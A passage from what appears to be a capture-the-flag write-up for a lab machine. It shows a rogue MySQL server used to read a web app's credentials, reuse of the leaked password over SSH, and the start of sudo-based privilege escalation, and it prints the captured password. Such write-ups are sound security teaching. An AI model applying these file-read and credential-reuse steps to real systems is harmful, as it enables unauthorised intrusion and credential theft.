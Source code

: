 We can login by setting our IP address and put whatever credentials.

Yet we can't read `/etc/passwd` because of open_basedir value.

The file we need to read is `index.php` with the up-to-date credentials.

We can change `filelist` (add `'/var/www/html/index.php'`) again and restart the rogue server.

Then if we read the rogue server's logs:

```
$ cat mysql.log | grep password
...
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
...
```

The we can re-use those credentials over SSH:

```
$ ssh waldo@10.10.10.187
waldo@10.10.10.187's password:
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Sun Jul 12 16:20:44 2020 from 10.10.14.36
waldo@admirer:~$
```

### Privilege Escalation of Machine 

The way to follow seems obvious:

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

So let's read the script `/opt/scripts/admin_tasks.sh`:

```bash
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

```